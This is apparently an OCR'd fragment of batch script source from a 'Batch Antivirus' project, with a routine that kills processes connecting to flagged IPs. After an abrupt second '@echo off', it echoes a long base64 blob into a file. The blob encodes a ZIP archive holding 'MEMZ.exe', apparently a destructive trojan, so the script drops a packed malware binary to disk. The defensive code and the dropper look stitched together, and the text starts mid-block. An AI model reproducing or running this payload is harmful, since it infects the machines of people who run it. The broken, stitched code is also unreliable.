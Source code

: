 	
	timeout /t %timeout_ip% /nobreak > nul 2>&1
)

goto scanip

:malicious_ip
for /f "tokens=1 delims= " %%B in ('tasklist /fi "pid eq %process_id%" ^| findstr /c:"%process_id%"') do (
	if !errorlevel! neq 0 (
		echo.Error while getting process name for '%process_id%' PID
	) else (
		set "malicious_ip_process=%%B"
if defined %ip:.=_% (
	if "%kill_process_ip%"=="1" taskkill /f /pid %process_id% > nul 2>&1 || echo Error while ending connection
	exit /b
)
set "%ip:.=_%=%ip%"
if "%showballoon%"=="1" start /b powershell [Reflection.Assembly]::LoadWithPartialName("""System.Windows.Forms""");$obj=New-Object Windows.Forms.NotifyIcon;$obj.Icon = [drawing.icon]::ExtractAssociatedIcon($PSHOME + """\powershell.exe""");$obj.Visible = $True;$obj.ShowBalloonTip(%balloon_notification_timeout%, """Batch Antivirus""","""Malicious IP connection: %ip%`nProcess `"%malicious_ip_process%`"""",2)>nul && exit /b

exit /b

:
rem findstr /ic:"free iphone." /c:"visitor 1,000,000" /c:"visitor 1,000" /c:"visitor 999,999" /c:"Malware found" /c:"Virus detected" /c:"888-795-1528" /c:"
rem %localappdata%\Packages\microsoft.windowscommunicationsapps_8wekyb3d8bbwe\LocalState\Files\S0\4\Attachments
@echo off

echo UEsDBBQAAAAIAHV36kiQ6IfZcyEAAAA6AAAIAAAATUVNWi5leGXtew10U8e17kg6soUtjACbGGzi>x
echo AxgMyD9Hlm1sY4JkW2AH/wjLP5BgB9k6RhKSjqIfbKcJyBgaqw65tM1NIJckNE1705Tcpi3JJWma>>x
echo OD830Da0TptFSQOpXx7NFSnhmYRbnIRw3jfnyMZpfmCt99b7WauzvM+c2TOz95699+zZIw71t+wl>>x
echo KkIIAxBFQo4QuZjItctJQErWcynk8LTjC44o6o4vaHa6gqw/IGwJ2L1sl93nE0JsJ88Gwj7W5WOr>>x
echo G22sV3Dw+dOnJ2XHaTxj9pZ/yKpcE/Dphr2uz6R3pet3qDdvT3BekurLro+kWuGkdZOry0nHf5Vs>>x
echo VgshdQo1eXHNzrYJ3ChRKpIVKYRo0Vgu4/Jm4aEDsPFV03clIWqikPonahKJK0nqNu2WBtKxk/Vk>>x
echo JZXDKwk5SF82ExJTfImAfogBPnvLCSm9Dl1PFsip+zJ68ZIf4ntDdHnJcYG0V+WeQmJzfsBhD9kJ>>x
echo eXmBjCAL/24BRNKGKV8eRu6jPK1E0g0p/MK44fxAMNBF4mvdHB9X9CX0ArxH6JLXTnUgyVbyhXGV>>x
echo X73Cf5T/naVl6NzAXVpdaDqec0KJ7eLiU6yJxBLQZRxuf1lHWtvcqR1Gsa2tzXlFZyJO6iRtYpoD>>x
echo o9wOMc2EeuC8Ivzn2zrOTtA7l2lrbXPuKjMRMa0I/UPFEfocd94DVJt4wnmQ1kMnxRNGcWhs99uh>>x
echo hbv/Frpxj0W0trkV7tniH/ZYLlrdCZQlvHJYPDHw6tI9lnGre6mY5gElq5hGUO2xxKzOwxLJNA3a>>x
echo GL/Hcuao5Yzkqm1iePyoZYy6mZjGoNuZiK3sThDTRtG4rePWob+0v9Iqpm2mBN3E+cZcLEgNygsw>>x
echo VIdFOitWQOixWME0qOL3l4pHlmM9Rf98zIpxIPk65mH6MVTG4Y6XGbry/nMV4GdrNb7dFm2/+Au6>>x
echo B2xuk5jWi0E2a9QyFpc/9gRoOmMqKhpVoJu4lbFdwA2NH9396meimIuZe6Q3a1vsdtrRPmb8m/j0>>x
echo 68BAVrppxDQ/XRTl4TZFLZdlLlLbKoYvRy3jsWpMhBZsYlouunYPhxVr0COmLUULeDEtRLU4wUaH>>x
echo 0RjzYJs8YGX44l3q2BX0RcMX3Ulnm0RRlIzrsLUOFY/QZb/dZhNPuBXf37Ue9E58f3A9tcllWKdC>>x
echo NtJe6ht3XVbMuPcvMIkzG/oU/YyYxknSzNg9CNvYbDbnzTOhHpvsU3ssjx+1PM6h54VSjD9qeYrA>>x
echo 66zR8Ei0/VC0/XC0/Ui0/flo+3C0/dVo+7Fo++vR9jfFtJNUwyhuh9tB61aQe1Nyvct4/jV1j+Uk>>x
echo BIpJDOjbGXm81Dixe3jHnzFVhT8nGA87HZLr3knnn4y2jw98KoY1bqWY5pQ0TN0oblTqv2WrYstM>>x
echo ZFv6c+nwnKHf6k98i0laO6gwr5TwgQvGX5VNP0dHzPlWf81CExnclXIF6jCvlLCB992EurtEttU2>>x
echo ND+bGucPMATjVv31HphpaJVkrz/C7hFI51bCW+Jy9l6Vc2zgihhOdDNnW0XqIpSkWPw6XNY5tow6>>x
echo KqWY6FafXYHuVhBLMr5tk+Y7TxXK2t8HMmXzTwE19OnQfOqW25a+wFHTbmPEPxiHrdZWp34ebGGV>>x
echo LbV24DXNylV0fOC0U5cDV/vDXy8NFdN98SLdOu6iNmcNavjIwHiCbG2KGy2dwIV7nTTWTyjTSc+h>>x
echo oTFqulK6KdS3uZNskte0Uvnuo970PxTh9/dYDhy1HKigmzwaPgQP2VBGHeUgSJFo+2PR9sclP3n+>>x
echo qOVIkrT7D1DiVHdiGK5STU1/tuCK5M7r17uToE8Sq1XLu1y3QNrlBLvcOVomb3WqmdhSDNj/7DFQ>>x
echo ufRxtOXy25bLp9vHT1vG37Zo5JdTxRvKTeSUmqPPVRHp3YnnOy/FDmIuDTcSQ8RGGszEtKeo3Sza>>x
echo Z/dpQPnSx3v8ytgrDH29MvRJ7Nn424exn+DNrdp/66VPb57xkz+qWi43xQ5InbR9QtUy3iSmHaL6>>x
echo Um6IRzVpm+pasZEPS3EXL+ckH9ljGUNcTHtMYnzZ+Cu95aJTQ4xk/fpW65BlXI9uvIpp6TS2YeCr>>x
echo UpAH2UnhqRtYnffNjR8EcVeIJVMZb9y/8atUM33pFNUMSu+bZdXsZmTVwLsr5lJvPizHjiOUdeGG>>x
echo V3AgkNghlWycVNk4R6x0oAaN2HfQ406ljPcwM+WFZ9smV37SFm0fkxePCLnHcspqk1cfuwXzhurP>>x
echo DLx0YD+V+WKsVkLEJhDjsdKpI4b+FFs6dQAMlK6i/rBBSf0BVpo2pelkyeukzTbUftnW1EoDbfii>>x
echo TVaqTQyPyWqVdHPutOXcqeKaKbrxS++leMa2guJUg2bGT7bYwzTkL98IMdyZOPAGXuasbkV3tCUm>>x
